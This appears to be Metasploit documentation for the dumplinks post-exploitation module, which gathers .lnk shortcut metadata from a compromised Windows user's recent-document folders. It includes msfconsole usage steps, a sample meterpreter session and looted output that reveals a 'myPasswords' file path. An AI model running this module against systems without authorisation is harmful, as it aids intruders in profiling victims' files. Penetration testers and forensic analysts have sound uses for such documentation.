 
## Vulnerable Application

  The dumplinks module is a modified port of Harlan Carvey's lslnk.pl Perl script. This module will parse .lnk files from a user's
  Recent Documents folder and Microsoft Office's Recent Documents folder, if present. Windows creates these link files automatically
  for many common file types. The .lnk files contain time stamps, file locations, including share names, volume serial numbers, and more.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/dumplinks```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **SESSION**

  The session to run the module on.


## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49160) at 2019-12-11 15:45:16 -0700

  msf > use post/windows/gather/dumplinks
  msf post(windows/gather/dumplinks) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/dumplinks) > run

    [*] Running module against TEST-PC
    [*] Extracting lnk files for user TEST at C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\...
    [*] Processing: C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk.
    [*] Processing: C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\Network and Internet.lnk.
    [*] No Recent Office files found for user TEST. Nothing to do.
    [*] Post module execution completed
  ```

## Example of looted .lnk output

  ```
  [*] exec: cat /root/.msf4/loot/20191211154832_default_192.168.1.10_host.windows.lnk_124491.txt

  C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk:
          Access Time       = 2019-12-11 23:44:39 -0700
          Creation Date     = 2019-12-11 23:44:39 -0700
          Modification Time = 2019-12-11 23:44:39 -0700
  Contents of C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk:
          Flags:
                  Shell Item ID List exists.
                  Shortcut points to a file or directory.
                  The shortcut has a relative path string.
                  The shortcut has working directory.
          Attributes:
                  Target was modified since last backup.
          Target file's MAC Times stored in lnk file:
                  Creation Time     = 2019-12-11 23:44:30 -0700. (UTC)
                  Modification Time = 2019-12-11 23:44:30 -0700. (UTC)
                  Access Time       = 2019-12-11 23:44:30 -0700. (UTC)
          ShowWnd value(s):
                  SW_NORMAL.
                  SW_SHOWMAXIMIZED.
                  SW_SHOW.
                  SW_SHOWMINNOACTIVE.
                  SW_RESTORE.
        Target file's MAC Times stored in lnk file:
                  Creation Time     = 2019-12-11 23:44:30 -0700. (UTC)
                  Modification Time = 2019-12-11 23:44:30 -0700. (UTC)
                  Access Time       = 2019-12-11 23:44:30 -0700. (UTC)
        Shortcut file is on a local volume.
                  Volume Name =
                  Volume Type = Fixed
                  Volume SN   = 0x548EF20B
        Target path = C:\Users\TEST\Desktop\myPasswords.txt&..\..\..\..\..\Desktop\myPasswords.txtC:\Users\TEST\Desktop(
      ```
